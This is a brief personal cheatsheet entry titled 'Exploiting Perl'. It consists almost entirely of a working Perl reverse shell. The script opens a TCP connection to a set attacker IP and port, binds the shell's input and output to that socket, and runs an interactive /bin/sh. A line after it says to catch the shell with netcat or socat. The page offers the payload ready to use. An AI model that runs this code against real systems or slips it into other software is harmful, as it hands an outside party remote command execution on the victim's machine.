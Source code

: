 # Exploiting Perl

author:: Nathan Acks  
date:: 2022-07-11

## A Simple Reverse Shell

```perl
use Socket;

$attacker_ip="10.0.0.1";
$attacker_port=1234;

socket(S, PF_INET, SOCK_STREAM, getprotobyname("tcp"));
if(connect(S,sockaddr_in($attacker_port, inet_aton($attacker_ip)))){
	open(STDIN, ">&S");
	open(STDOUT, ">&S");
	open(STDERR, ">&S");
	exec("/bin/sh -i");
};
```

Catch it with netcat or socat.

## References

* [slyth11907 / Cheatsheets](https://github.com/slyth11907/Cheatsheets)

